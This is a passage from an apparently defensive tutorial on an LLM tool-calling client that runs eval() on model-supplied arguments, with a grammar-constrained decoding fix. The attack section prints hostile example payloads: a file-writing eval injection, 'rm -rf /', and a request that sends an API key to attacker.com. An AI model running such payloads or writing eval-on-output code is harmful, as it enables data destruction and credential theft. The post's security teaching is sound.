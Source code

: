  The client then does something nobody saw coming: it runs `eval(fc_args["expression"])`! 
Why? Because the malicious server stuffed `open('pwned.txt', 'w').write('owned')` into that argument, the client opens a file and writes “owned”.
 
The first request to the server (without tools) demonstrates that the server will respond with a normal chat message. But as soon as tools are involved, the exploit chain triggers automatically.


---
## Why This Is Dangerous

Why should you care about a toy example that writes to a file? Because it illustrates a general principle: **LLM outputs should be treated as untrusted user input**. Prompt hardening cannot prevent a determined attacker from steering a stochastic model toward a dangerous token. When your glue code blindly runs whatever the model suggests, be it via `eval()` or an API call, you’ve effectively handed over execution rights.

Consider an attacker who replaces `open('pwned.txt', ...)` with `os.system('rm -rf /')` or `requests.get('https://attacker.com/steal-keys?key=' + secrets.API_KEY)`. The vulnerability scales from file vandalism to full remote code execution (RCE). The language model isn’t at fault; it's a text generator that returned what its prompt told it to return. The insecurity lies in the code that executes the model’s answer without guardrails.

___
## How Grammar-Constrained Decoding Saves the Day

So how do you keep the calculator tool safe? You **constrain** what the model can generate and what your code will accept. That’s the cheat code. I created the grammar below to illustrate a _safe arithmetic expression_:

```r
# Grammar for safe arithmetic expressions: allows only numbers, parentheses and + - * / operators
root      	::= ws? expr ws?                  	# root is a safe arithmetic expression 
expr      	::= term (ws? add_sub_op ws? term)*     # expression is terms separated by + or -
term      	::= factor (ws? mul_div_op ws? factor)* # term is factors separated by * or /
factor    	::= number | "(" ws? expr ws? ")"   	# factor is a number or parenthesized expression
number    	::= digit+ ("." digit+)?            	# integer or decimal number
digit     	::= [0-9]                           	# single digit
add_sub_op  	::= "+" | "-"                       	# addition or subtraction
mul_div_op  	::= "*" | "/"                      	# multiplication or division
ws        	::= [ \t\n\r]+                      	# one or more whitespace characters

```

Translated from [GBNF](https://github.com/ggml-org/llama.cpp/blob/master/grammars/README.md) into plain English: **only** numbers, whitespace, the operators `+ - * /`, and parentheses are allowed. No letters, no dots except in decimals, no quotes, no function calls.

Here’s why it shuts down the attack:

- The malicious payload `open('pwned.txt', 'w').write('owned')` contains letters (`open`, `write`), quotes and a period; **none of which appear in the grammar’s allowed tokens.** A parser derived from this grammar will either reject the input or fail to parse it.
    